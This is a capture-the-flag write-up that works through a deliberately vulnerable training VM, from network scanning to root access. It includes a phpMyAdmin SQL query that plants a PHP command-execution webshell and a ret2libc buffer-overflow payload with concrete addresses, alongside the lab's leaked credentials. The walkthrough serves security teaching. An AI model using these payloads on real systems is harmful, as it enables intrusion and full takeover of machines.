

# First Breach.

## Find the machine's IP.

When started, the machine asks us for a login, showing nothing but this prompt. Using the **Host Network Manager** from VirtualBox we can setup a local network between all virtual machines and the host one. By doing so, we get an IP that will be later referenced as `<IP>`.

To create an **Host only adapter network**, first we go File > Host Network Manager and it opens a pop-up. All we have to do now is clicking on the "Create" button to generate a new network. We get the following:


> In our case, the host network is called `vboxnet0` with `192.168.56.1` as IP address.

Then, we select the Boot to Root machine and go to Machine > Settings > Network to set the new network. We put `Attached to` to `Host only Adapter` and we select the option `vboxnet0` for the `name` as follow:


## Analyze local network.

Now all we have to do is to scan the network with [nmap](https://nmap.org/).

```shell
  $> nmap <IP>/24
  Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-23 12:26 CET
  Nmap scan report for <IP>
  Host is up (0.00033s latency).
  Not shown: 999 closed tcp ports (conn-refused)
  PORT   STATE SERVICE
  22/tcp open  ssh

  Nmap scan report for <NETWORK-IP1>
  Host is up (0.00037s latency).
  All 1000 scanned ports on 192.168.56.100 are in ignored states.
  Not shown: 1000 closed tcp ports (conn-refused)

  Nmap scan report for <NETWORK-IP2>
  Host is up (0.0012s latency).
  Not shown: 994 filtered tcp ports (no-response)
  PORT    STATE SERVICE
  21/tcp  open  ftp
  22/tcp  open  ssh
  80/tcp  open  http
  143/tcp open  imap
  443/tcp open  https
  993/tcp open  imaps

  Nmap done: 256 IP addresses (3 hosts up) scanned in 12.90 seconds
```

> `/24` tells to nmap to scan the range of adresses that fit this mask. In our case from `192.168.56.0` to `192.168.56.255`.

## Website discovery.

Thanks to **nmap**, we can see that three machines are running in the same network, one on which we can connect with ssh and another with a bunch of open ports. We'll focus on that one since port `80` and `443` are open on it meaning there is a **website bound to the machine that we can access via HTTP / HTTPS requests**.

Using [curl](https://curl.se/), we can look at this website...

```HTML
  $> curl https://<NETWORK-IP2>

  <!DOCTYPE html>
  <html>
    <head>
      <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
      <title>Hack me if you can</title>
      <meta name='description' content='Simple and clean HTML coming soon / under construction page'/>
      <meta name='keywords' content='coming soon, html, html5, css3, css, under construction'/>
      <link rel="stylesheet" href="style.css" type="text/css" media="screen, projection" />
      <link href='http://fonts.googleapis.com/css?family=Coustard' rel='stylesheet' type='text/css'>
    </head>
    <body>
      <div id="wrapper">
        <h1>Hack me</h1>
        <h2>We're Coming Soon</h2>
        <p>We're wetting our shirts to launch the website.<br />
        In the mean time, you can connect with us trought</p>
        <p><a href="https://fr-fr.facebook.com/42Born2Code"></a> <a href="https://plus.google.com/+42Frborn2code"></a> <a href="https://twitter.com/42born2code"></a></p>
      </div>
    </body>
  </html>
```

> It clearly tell us `Hack me if you can`. So we are on the right path.

Trying a random endpoint gives us useful information...

```HTML
  $> curl https://<NETWORK-IP2>/test
  <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
  <html>
    <head>
      <title>404 Not Found</title>
    </head>
    <body>
      <h1>Not Found</h1>
      <p>The requested URL /test was not found on this server.</p>
      <hr>
      <address>Apache/2.2.22 (Ubuntu) Server at <NETWORK-IP2> Port 80</address>
    </body>
  </html>
```

So we know that this website is powered by Apache, some known vulnerabilities could be tried, we'll probably come back to that later on. For now on, we could try a powerful tool called [dirb](https://www.kali.org/tools/dirb/#:~:text=DIRB%20is%20a%20Web%20Content,can%20use%20your%20custom%20wordlists.) we could try to identify existing endpoints for this website.

```shell
  $> dirb https://<NETWORK-IP2> -rSwN 403

  -----------------
  DIRB v2.22    
  By The Dark Raver
  -----------------

  START_TIME: Sun Jan 23 18:06:57 2022
  URL_BASE: <NETWORK-IP2>
  WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
  OPTION: Ignoring NOT_FOUND code -> 403
  OPTION: Not Recursive
  OPTION: Silent Mode
  OPTION: Not Stopping on warning messages

  -----------------

  GENERATED WORDS: 4612

  ---- Scanning URL: <NETWORK-IP2> ----
  ==> DIRECTORY: <NETWORK-IP2>/forum/
  ==> DIRECTORY: <NETWORK-IP2>/phpmyadmin/
  ==> DIRECTORY: <NETWORK-IP2>/webmail/

  -----------------
  END_TIME: Sun Jan 23 18:07:07 2022
  DOWNLOADED: 4612 - FOUND: 0
```

> flags `-rSw` tell dirb to silently test every combinations in the used dictionary, not doing any recursion and not stopping analysis of an endpoint on a warning. `-N` discard any endpoint that respond with a particular [HTTP Code](https://en.wikipedia.org/wiki/List_of_HTTP_status_codes), here 403 meaning **Forbidden**.

Thanks to this scan, we can see that three services are available to us, a forum, phpmyadmin and a mail service...

## Forum analysis.

On the forum's main page, we have some information at our disposal. At the top right corner a **Log in** and **Contact** buttons and some posts we can read. Only `Probleme login ?` by `lmezard` seems to be interesting to go through. It look like a kind of logs.

```
...
Oct 5 08:44:59 BornToSecHackMe sshd[7490]: Failed password for root from 161.202.39.38 port 55193 ssh2
...
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
...
Oct 5 13:31:19 BornToSecHackMe sshd[20199]: reverse mapping checking getaddrinfo for ppp-253-14.20-151.wind.it [151.20.14.253] failed - POSSIBLE BREAK-IN ATTEMPT!
...
Oct 5 14:54:00 BornToSecHackMe sshd[23804]: Accepted password for admin from 62.210.32.157 port 61495 ssh2
...
Oct 5 14:54:29 BornToSecHackMe sudo: admin : TTY=pts/0 ; PWD=/home/admin ; USER=root ; COMMAND=/bin/sh
...
Oct 5 14:57:56 BornToSecHackMe sudo: root : TTY=pts/0 ; PWD=/home/admin ; USER=root ; COMMAND=/usr/sbin/service vsftpd restart
...
```

> This log was truncated with `...` for not really interesting parts... As we can see there are useful log that we could use to find some vulnerabilities later on.

We can see that someone most likely swapped his username with its password (`!q\]Ej?*5K5cy*AJ`). Since the logs tell us that user `lmezard` succesfully logged himself 30 seconds after, we can assume that it was his password. If we click on the **Log in** button and try these credentials we indeed access this account.

# Webmail analysis.
Now that we are logged on the forum we can access her profile and we can retrieve its email which is as depicted bellow, `laurie@borntosec.net`.


If we try to log on the webmail service with the credentials pair `laurie@borntosec.net:!q\]Ej?*5K5cy*AJ` we can access her mailbox where we find an interesting mail.

```
Subject:    DB Access
From:       qudevide@mail.borntosec.net
Date:       Thu, October 8, 2015 10:25 pm
To:         laurie@borntosec.net
Priority:   Normal

---------

Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```
As you can see, this mail gives us administrator access to the databases with the credentials pair `root:Fg-'kKXBj87E:aJ$`.

## PHPMyAdmin and webshell exploit.

Now that we have these credentials we can log as root in PHPmyAdmin. There is a known vulnerability with this service known as [Webshell upload](https://www.netspi.com/blog/technical/network-penetration-testing/linux-hacking-case-studies-part-3-phpmyadmin/). To upload this shell to the website we need to find a place where we have rights to write files. So we are back to dirb... We'll look through the forum to find possibles directories.

```shell
 dirb https://<NETWORK-IP2>/forum -rSwN 403

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Jan 23 20:16:25 2022
URL_BASE: https://<NETWORK-IP2>/forum/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Ignoring NOT_FOUND code -> 403
OPTION: Not Recursive
OPTION: Silent Mode
OPTION: Not Stopping on warning messages

-----------------

GENERATED WORDS: 4612

---- Scanning URL: https://<NETWORK-IP2>/forum/ ----
==> DIRECTORY: https://<NETWORK-IP2>/forum/images/
==> DIRECTORY: https://<NETWORK-IP2>/forum/includes/
==> DIRECTORY: https://<NETWORK-IP2>/forum/js/
==> DIRECTORY: https://<NETWORK-IP2>/forum/lang/
==> DIRECTORY: https://<NETWORK-IP2>/forum/modules/
==> DIRECTORY: https://<NETWORK-IP2>/forum/templates_c/
==> DIRECTORY: https://<NETWORK-IP2>/forum/themes/
==> DIRECTORY: https://<NETWORK-IP2>/forum/update/

-----------------
END_TIME: Sun Jan 23 20:16:28 2022
DOWNLOADED: 4612 - FOUND: 2
```

Now that we have some potential candidates for our upload, let's try it. We head to the SQL tab and enter the following...

```SQL
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/forum/templates_c/webshell.php'
```

> We find that `/forum/templates_c` is the only folder where this can be written. This basically create an HTML page with a textbox. When you click on the **Submit** button the input is evaluated directly in the shell where the website is hosted.

We now have a shell in the working directory `/forum/templates_c`, we are logged as `www-data`. After listing a few directories, we find `/home/LOOKATME/password` that gives us the credentials pair `lmezard:G!@M6f4Eatau{sF"`.

## First user, `lmezard`.

We can log into the vVM directly but not via ssh due to some SSH configuration. We can confirm this via the webshell by checking the file `/etc/ssh/sshd_config` where the current host ssh configuration is located.

```shell
  $> cat /etc/ssh/sshd_config
  ...
  RSAAuthentication yes
  PubkeyAuthentication yes
  #AuthorizedKeysFile     %h/.ssh/authorized_keys
  AllowUsers ft_root zaz thor laurie
  #DenyUsers *
  ...
```

> As it is stated in [sshd configuration](https://linux.die.net/man/5/sshd_config) documentation, `AllowUsers` option is listing all the users that can use ssh to remotely connect to the machine, `lmezard` is not one of them.

Once logged in the VM we can find two files in her home directory, a `README` file and a binary called `fun`.

```shell
  $> cat README
  Complete this little challenge and use the result as password for user 'laurie' to login with ssh
  $> file fun
  fun: POSIX tar archive (GNU)
```

> [`file`](https://linux.die.net/man/1/file) helps us to determine the type of a file, here it tell us it is an archive so we can use [`tar`](https://linux.die.net/man/1/tar) to work with it.


From the **nmap** scan we remember that a [ftp](https://linux.die.net/man/1/ftp) service is running... let's connect as `lmezard` to extract files and work on it directly outside of the VM.

```shell
  $> ftp
  ftp> open
  (to) <NETWORK-IP2>

  Connected to <NETWORK-IP2>.
  220 Welcome on this server    

  Name (<NETWORK-IP2>:<user): lmezard
  331 Please specify the password.
  Password: G!@M6f4Eatau{sF"

  230 Login successful.
  Remote system type is UNIX.
  Using binary mode to transfer files.

  ftp> get fun
  local: fun remote: fun
  200 PORT command successful. Consider using PASV.
  150 Opening BINARY mode data connection for fun (808960 bytes).
  226 Transfer complete.

  ftp> exit
  221 Goodbye.
```

> The `get` command download the requested file from the service to our machine.


After decompressing the archive, we have a directory `ft_fun` with a bunch of weird files in it.

```shell
  $> ls -l ft_fun
  ...
  -rw-r----- 1 kilian kilian    28 août  13  2015 1SDTO.pcap
  -rw-r----- 1 kilian kilian    28 août  13  2015 1TWEB.pcap
  -rw-r----- 1 kilian kilian    28 août  13  2015 1YG75.pcap
  -rw-r----- 1 kilian kilian    44 août  13  2015 1ZNSV.pcap
  -rw-r----- 1 kilian kilian    25 août  13  2015 20L0Z.pcap
  -rw-r----- 1 kilian kilian    44 août  13  2015 257IO.pcap
  -rw-r----- 1 kilian kilian    44 août  13  2015 27RWO.pcap
  -rw-r----- 1 kilian kilian    44 août  13  2015 2AHUV.pcap
  ...
  $> cat ft_fun/27RWO.pcap 
    printf("Hahahaha Got you!!!\n");

    //file308
```

> One of those files is bigger and contains a C main and calls to `getmeXX` functions and a printf call telling us to **digest** the password we'll find.

We understand quickly that we need to write a C file and compile it with all of those little code snippets, sorting them by the comment on the last line of the file giving their order. To automate this tedious process we wrote the following script...

```js
const { readdirSync, readFileSync, writeFileSync } = require('fs')
const { exec, execSync } = require('child_process')

execSync('tar -xf fun')

const files = readdirSync('./ft_fun')
const codePieces = []

for (const file of files) {
  const fileData = readFileSync(`./ft_fun/${file}`).toString()
  const fileNumber = parseInt(fileData.split('\n').at(-1).substring('//file'.length))
  const code = fileData.replace(/(\/\/file\d+)/g, '')

  codePieces.push({ code, fileNumber })
}

codePieces.sort((a, b) => (a.fileNumber > b.fileNumber) ? 1 : -1)

let sourceCode = ''

for (const codePiece of codePieces) {
  sourceCode += codePiece.code
}

writeFileSync('main.c', sourceCode)
exec('gcc main.c ; echo -n $(./a.out | grep PASSWORD | cut -d " " -f4) | sha256sum | cut -d " " -f1', (error, stdout, stderr) => {
  console.log(stdout)
})
```

> This script begins with extracting all the files from the archive, then constructing an array of all the `files` names. Then, it will read the content of each file, extract its position and remove the `//fileXXX` line from the content and finally it will sort everything by their position before creating a string containing the source code before writting it inside `main.c`. Last task is to compile it, then extract the password and digest it with **SHA256**.

```
  $> node lmezard.js 
  330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

We now have another credentials pair: `laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`, usable with ssh this time!

## `laurie`, the Bomb minigame.

Two files are in its `home` directory... Once again a `README` and a binary called `bomb`.

```
  $> cat README
  Diffuse this bomb!
  When you have all the password use it as "thor" user with ssh.

  HINT:
  P
  2
  b

  o
  4

  NO SPACE IN THE PASSWORD (password is case sensitive).    
```

We'll use [Hopper](https://www.hopperapp.com/index.html) and [gdb](https://linux.die.net/man/1/gdb) to get through this challenge.

The program consists of a set of string checks waiting for us to input the correct value each time.
Using Hopper we see that there are 6 functions named `phaseX` with X. There's also a ``secret_phase`` but we'll come back to it later.

### Phase 1, String comparison.

Hopper gives us the following code:

```C
int phase_1(int arg0) {
  eax = strings_not_equal(arg0, "Public speaking is very easy.");
  if (eax != 0x0) {
     eax = explode_bomb();
  }
  return eax;
}
```

> Pretty straight forward, simply checks if our input is `Public speaking is very easy.`.

### Phase 2, Factorials.

Using Hopper we can recreate the function:

```C
int phase_2() {
  inputs = read_six_numbers(stdin); // int[6]
  if inputs.len() != 6
    explode_bomb();
  int factorials[6] = {1, 2, 3, 4, 5, 6}; // stored in esi register
  
  int i = 1;
  do {
    factorial = factorials[i - 1];
    factorials[i] *= factorials[i - 1];
    if (inputs[i] != factorial)
      explode_bomb();
  } while (i <= 5)
  return 0;
}
```

> For this one we need to input the result of factorials from 1 to 6. So answer is `1 2 6 24 120 720`.

### Phase 3, Switch case.

Hopper gives us the following code:

```C
int phase_3() {
  int rtn = scanf(stdin, "%d %c %d", &first_int, &my_char, &second_int);
  if rtn <= 2
    explode_bomb();
  if (first_int < 7)
    switch case (first_int)
      case 0:
        cmp_char = 'q';
        if (second_int != 777) {
          eax = explode_bomb();
        }
        else {
          if (cmp_char != my_char) {
            eax = explode_bomb();
          }
        }
        break;
      case 1:
        cmp_char = 'b';
        if (second_int != 214) {
          explode_bomb();
        }
        else {
          if (cmp_char != my_char) {
            eax = explode_bomb();
          }
        }
        break;
      ... // There are 6 more cases but they are not interesting.
  }
  else
    explode_bomb();
  return 0;
}
```

> This one waits for one number, a character and another number to be input. There are multiple possible answers, We take the first one because the hint for this phase is `b`. So `1 b 214` should what's expected.

### Phase 4, Fibonacci sequence.

Using Hopper we can recreate the function:

```C
int func4(int fibo_index) {
  int fibo1;
  if (fibo_index > 1) {
    fibo1 = func4(ebx - 1);
    fibo2 = func4(ebx - 2);
    fibo1 = fibo1 + fibo2;
  }
  else {
    fibo1 = 0x1;
  }
  return fibo1;
}

int phase_4() {
  if ((sscanf(stdin, "%d", &fibo_index) == 1) && (fibo_index > 0)) {
    int fibo55 = func4(fibo_index);
    if (fibo555 != 55) {
      eax = explode_bomb();
    }
  }
  else {
    explode_bomb();
  }
  return eax;
}
```

> This one takes a int as input and returns a term in the Fibonacci sequense corresponding to that index. It checks an index that gives `55`, which is the 10th index. However `func4()` stops at index 1 so the sequensse starts with `[1, 1]` and not `[0 , 1]`. So we need to subscract one itteration from our guess to find the correct value which is `9`.

### Phase 5, Cipher.

Using Hopper we can recreate the function:

```C
void phase_5() {
  read_input(stdin, &str);
  if (strlen(str) != 6) {
    explode_bomb();
  }
  else {
    int i = 0;
    char *indexMe = "isrveawhobpnutfg";
    do {
      str[i] = indexMe[str[i] & 0xf];
      i++;
    } while (edx <= 5);
    if strcmp(str, "giants" != 0) {
      explode_bomb();
    }
  }
  return;
}
```
> It uses each character of the string we put in and does a [binary AND](https://en.wikipedia.org/wiki/Bitwise_operation) with `0xf` with them which creates a number below `16` used as index in `isrveawhobpnutfg`. The newly constructed string must then be equal to `giants`.

We did a quick script to get the possible combinaisons that matches the result.

```python
#!/usr/bin/python3
index = 'isrveawhobpnutfg'

for i in 'abcdefghijklmnopqrstuvwxyz':
  if index[ord(i) & 0xf] in 'giants':
    print("{} : {}".format(index[ord(i) & 0xf], i))
```

If we run the script, it will prompts us which letter maps to each of the ones forming the word `giants`.

```shell
  $> python3 phase5.py
  s : a
  a : e
  n : k
  t : m
  g : o
  i : p
  s : q
  a : u
```
> As we can see, since `s` and `a` have two valid mapped characters, there are 4 possible solutions: `opekma`, `opekmq`, `opukma` and `opukmq`. After trying them all, we see that `opekmq` is the answer.

### Phase 6, 

Using Hopper we can tell:

- `phase_6()` takes six ints and checks that they're less than 6.
- Permutate data in `esi` using our input then checks if that data is in decreasing order.
- `esi` registery holds what's at address `0x804b26c`.

Now let's use **gdb** to figure out which order we need to set our inputs.

```shell
  $> gdb -q bomb
  Reading symbols from /home/laurie/bomb...done.
  (gdb) b main
  Breakpoint 1 at 0x80489b7: file bomb.c, line 36.
  (gdb) r
  Starting program: /home/laurie/bomb

  Breakpoint 1, main (argc=1, argv=0xb7fd0ff4) at bomb.c:36
  36  bomb.c: No such file or directory.
  (gdb) x/20x 0x804b26c-0x40
  0x804b22c <array>:    0x67667475	0x000001b0	0x00000006	0x00000000
  0x804b23c <node5>:    0x000000d4	0x00000005	0x0804b230	0x000003e5
  0x804b24c <node4+4>:	0x00000004	0x0804b23c	0x0000012d	0x00000003
  0x804b25c <node3+8>:	0x0804b248	0x000002d5	0x00000002	0x0804b254
  0x804b26c <node1>:    0x000000fd	0x00000001	0x0804b260	0x000003e9
  (gdb) x/20x 0x804b26c-0x42
  0x804b22a <arra>:	    0x74756e70	0x01b06766	0x00060000	0x00000000
  0x804b23a <node6+10>:	0x00d40000	0x00050000	0xb2300000	0x03e50804
  0x804b24a <node4+2>:	0x00040000	0xb23c0000	0x012d0804	0x00030000
  0x804b25a <node3+6>:	0xb2480000	0x02d50804	0x00020000	0xb2540000
  0x804b26a <node2+10>:	0x00fd0804	0x00010000	0xb2600000	0x03e90804
```
> We can see 6 nodes and their values. All we have to do is to tell their descending order depending on which value they hold. The answer is, indeed, `4 2 6 3 1 5`.

Now that we have all the password we need to concatenate them into the final result which is:

```
Publicspeakingisveryeasy.126241207201b2149opekmq426315
```
> However it doesn't work, for some reason we need to swap third-to-last and second-to-last characters. [Source](https://stackoverflow.com/c/42network/questions/664).

We now have another credentials pair: `thor:Publicspeakingisveryeasy.126241207201b2149opekmq426135`.

## `thor`, Draw the answer.

Two files are in its `home` directory... Once more, a `README` and a text file `turtle`.

```shell
  $> cat README
  Finish this challenge and use the result as password for 'zaz' user.
  $> cat turtle
  ...
  Tourne droite de 1 degrees
  Avance 50 spaces

  Avance 210 spaces
  Recule 210 spaces
  Tourne droite de 90 degrees
  Avance 120 spaces
  ...
  Can you digest the message? :)
```

> The textfile look like a pseudo protocol written in French. After some research we find a python package called [turtle](https://docs.python.org/3/library/turtle.html) that uses the same kind of logic to draw on a canvas. So let's write an interpreter that will convert it to understandable python code that use the turtle module.

```js
const { readFileSync, writeFileSync } = require('fs')
const { execSync } = require('child_process')

const fileData = readFileSync('turtle').toString().split('\n')
const turtleCode = [
  '#!/usr/bin/python3',
  'from turtle import *',
  'pensize(3)',
  'left(90)',
]

for (const line of fileData) {
  const [value] = line.match(/\d+/) || []
  if (line.match(/gauche/)) {
    turtleCode.push(`left(${value})`)
  } else if (line.match(/Avance/)) {
    turtleCode.push(`forward(${value})`)
  } else if (line.match(/droite/)) {
    turtleCode.push(`right(${value})`)
  } else if (line.match(/Recule/)) {
    turtleCode.push(`backward(${value})`)
  }
}

turtleCode.push('delay(1000)', 'forward(0)')
writeFileSync('thor.py', turtleCode.join('\n'))
execSync('python3 thor.py')
```

> This script will go through each line of the file `turtle` and build an array of instruction that will be later converted to a newline separated string output to `thor.py` before interpreting it with `python3`. The last two initial strings in `turtleCode` allow us to set a the turtle facing up with a larger drawing size than default. `delay(1000)`at the end helps us to see the final result because the program shut down the graphic window on the last turtle instruction.

Running the script gives us the following result...

```shell
  $> node turtle-interpreter.js
```



All we have to do now is to hash the word `SLASH` with [`md5sum`](https://man7.org/linux/man-pages/man1/md5sum.1.html).

```shell
  $> echo -n 'SLASH' | md5sum | cut -d ' ' -f1
  646da671ca01bb5d84dbb5fb2238dc8e
```

> `cut -d ' ' -f1` is used to remove the dash following the output.

We now have another credentials pair: `zaz:646da671ca01bb5d84dbb5fb2238dc8e`.

## `zaz`, Buffer overflow to priveleges escalation.

In this user's home directory there is one binary called `exploit_me` and a `mail` directory. Let's forget about the directory and focus on the binary. Using `gdb` we can see the following.

```gdb
  $> gdb ./exploit_me
  (gdb) disas main
  Dump of assembler code for function main:
    0x080483f4 <+0>:     push   %ebp
    0x080483f5 <+1>:     mov    %esp,%ebp
    0x080483f7 <+3>:     and    $0xfffffff0,%esp
    0x080483fa <+6>:     sub    $0x90,%esp
    0x08048400 <+12>:    cmpl   $0x1,0x8(%ebp) // Check for 1 argument
    0x08048404 <+16>:    jg     0x804840d <main+25>
    0x08048406 <+18>:    mov    $0x1,%eax
    0x0804840b <+23>:    jmp    0x8048436 <main+66>
    0x0804840d <+25>:    mov    0xc(%ebp),%eax
    0x08048410 <+28>:    add    $0x4,%eax
    0x08048413 <+31>:    mov    (%eax),%eax
    0x08048415 <+33>:    mov    %eax,0x4(%esp)
    0x08048419 <+37>:    lea    0x10(%esp),%eax
    0x0804841d <+41>:    mov    %eax,(%esp)
    0x08048420 <+44>:    call   0x8048300 <strcpy@plt> // Copy $ebp somewhere else
    0x08048425 <+49>:    lea    0x10(%esp),%eax
    0x08048429 <+53>:    mov    %eax,(%esp)
    0x0804842c <+56>:    call   0x8048310 <puts@plt> // Prints the result of strcpy()
    0x08048431 <+61>:    mov    $0x0,%eax
    0x08048436 <+66>:    leave
    0x08048437 <+67>:    ret
  End of assembler dump.
```

> Apparently, this program need one argument. It simply use [`strcpy()`](https://man7.org/linux/man-pages/man3/strcpy.3.html) to copy whatever we send before printing it using [`puts()`](https://man7.org/linux/man-pages/man3/puts.3.html). As stated in the man of `strcpy()`, If the destination string of a `strcpy()` is not large enough, then anything might happen.  Overflowing fixed-length string buffers is a favorite cracker technique for taking complete control of the machine.

We can create a **buffer overflow** that will override what's stored on [EIP register](https://security.stackexchange.com/questions/129499/what-does-eip-stand-for), to execute arbitrary code. This exploit is called a [ret2libc attack](https://infosecwriteups.com/ret2libc-attack-in-lin-3dfc827c90c3). To perform this attack we'll need few things:

- Find where [`system()`](https://man7.org/linux/man-pages/man3/system.3.html), [`exit()`](https://man7.org/linux/man-pages/man3/exit.3.html) and `/bin/sh` are stored in memory.
- Find where the buffer and EIP addresses are.

Let's use a quick gdb routine to get these informations...

```gdb
file /home/zaz/exploit_me
b *0x08048425
r 0000000000000000000000000000
p &system
p &exit
find &system, +999999999, "/bin/sh"
x $esp
info frame
```

> We create a breakpoint after `strcpy()` to locate where is the buffer using [ESP register](https://stackoverflow.com/questions/21718397/what-are-the-esp-and-the-ebp-registers), then we run the program with some arbitrary input. Get the adresses of `system()`, `exit()` and locate adress of `/bin/sh` between adresses of system and the rest of memory space. Finally fetch `esp` and `eip` using the [stack frame](https://www.techopedia.com/definition/22304/stack-frame#:~:text=A%20stack%20frame%20is%20a,pertaining%20to%20a%20subprogram%20call.&text=A%20stack%20frame%20also%20known%20as%20an%20activation%20frame%20or%20activation%20record.).

Running this routine gives the following:

```gdb
  $> gdb -x ret2libc.gdb --batch
  Breakpoint 1 at 0x8048425

  Breakpoint 1, 0x08048425 in main ()
  $1 = (<text variable, no debug info> *) 0xb7e6b060 <system>
  $2 = (<text variable, no debug info> *) 0xb7e5ebe0 <exit>  
  0xb7f8cc58
  warning: Unable to access target memory at <SOME-ADRESS>, halting search.
  1 pattern found.
  <SOME-ADRESS>: 0xbffff5b0
  Stack level 0, frame at <SOME-ADRESS>:
    eip = 0x8048425 in main; saved eip <SOME-ADRESS>
    Arglist at <SOME-ADRESS>, args:
    Locals at <SOME-ADRESS>, Previous frame's sp is <SOME-ADRESS>
    Saved registers:
      ebp at <SOME-ADRESS>, eip at 0xbffff63c
```

> `system()` is at address `0xb7e6b060`, `exit()` at `0xb7e5ebe0` and `/bin/sh` at `0xb7f8cc58`. **ESP** is at `0xbffff5b0` and **EIP** is at `0xbffff63c` in this case.

Now we need to check few things before trying to exploit this vulnerability. First, [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) must be off and the [endianness](https://en.wikipedia.org/wiki/Endianness) of this machine.

```shell
  $> sysctl kernel.randomize_va_space
  kernel.randomize_va_space = 0
  $> lscpu | grep Endian
  Byte Order: Little Endian
```

> According to this [thread](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization), **ASLR** is disabled, and this machine is in little endian, we'll need to reverse byte order to get the right addresses.

In order to perform this attack we need to generate a segfault in the program. In this case, it means to find the offset from which we start to override stored addresses in **EIP**. To do so, we simply substract the address of **ESP** to **EIP**.

```shell
 $> echo 'ibase=16; BFFFF63C - BFFFF5B0' | bc
 140
```

> Thanks to [`bc`](https://linux.die.net/man/1/bc) we can quickly substract these two by specifying the input base, here **hexadecimal** (16).

Now that we know that the offset must be **140 bytes** we can check it easily using [python string multiplication](https://www.pythoncentral.io/use-python-multiply-strings/).

```shell
  $> ./exploit_me `python -c "print '0' * 139"`
  0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
  000000000000000000000000000000000000000000000
  $> ./exploit_me `python -c "print '0' * 140"`
  00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
  Illegal instruction (core dumped)
```

> **139 bytes** works perfectly, **140 and above** segfaults.

Final step is to construct a sequence of bytes after this offset that will execute in order `system()`, `exit()` and finally `/bin/sh` and we have all these addresses to do so!

```shell
  $> ./exploit_me `python -c 'print("\x90"*140 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])'`
  00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000`X
  # id
  uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
  # whoami
  root
```

> In Python, `[::-1]` is a way to reverse string, needed here to swap between big and litle endian.

As you can see, we are now root on this machine!
